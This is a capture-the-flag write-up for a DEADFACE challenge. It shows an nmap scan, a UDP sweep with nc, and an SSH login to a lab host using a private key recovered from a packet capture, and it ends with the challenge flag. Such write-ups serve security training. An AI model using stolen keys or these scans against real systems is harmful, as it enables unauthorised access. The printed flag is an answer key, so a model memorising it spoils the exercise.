 # [06 - The_Root_of_All_Evil](https://deadface.ctfd.io/challenges#The%20Root%20of%20All%20Evil...%20OR...%20Adding%20Insult%20to%20Injury-57)

## description
```
Great news! Luciafer has been spotted at an internet cafe! She's using her laptop right now! We can catch her, if we act quickly.

We need your help. Can you figure out a way to remotely connect to her machine and capture the flag?

Her username on her system is luciafer, and her hostname is:
batescafe.deadface.io
```

## walkthrough

start with a basic nmap scan
```
$ nmap batescafe.deadface.io -Pn
Starting Nmap 7.80 ( https://nmap.org ) at 2021-10-16 15:31 MDT
Nmap scan report for batescafe.deadface.io (164.90.158.159)
Host is up (0.12s latency).
Not shown: 995 filtered ports
PORT      STATE  SERVICE
22/tcp    open   ssh
50000/tcp closed ibm-db2
50001/tcp closed unknown
50002/tcp closed iiimsf
50003/tcp closed unknown
```

not sure why we're seeing closed ports, but ok.

trying udp
```
$ nc -v -u 164.90.158.159 1-65535
Connection to 164.90.158.159 1 port [udp/*] succeeded!

```

```
$ ssh 164.90.158.159 -l luciiafer
luciiafer@164.90.158.159: Permission denied (publickey).
```

didn't we see a private key somewhere in the pcap?
we did, it is [id_rsa](id_rsa)

```
$ ssh -l luciafer 164.90.158.159 -i id_rsa
luciafer@141de23b976d:~$
luciafer@141de23b976d:~$ find . -type f
./.bash_logout
./.profile
./.bashrc
./Downloads/flag.txt
luciafer@141de23b976d:~$ cat Downloads/flag.txt 
flag{Lucy-a-FUR-G0T-R3KT-by-the-BLUZers-CLUB!!!}
```

## flag
```
flag{Lucy-a-FUR-G0T-R3KT-by-the-BLUZers-CLUB!!!}
```
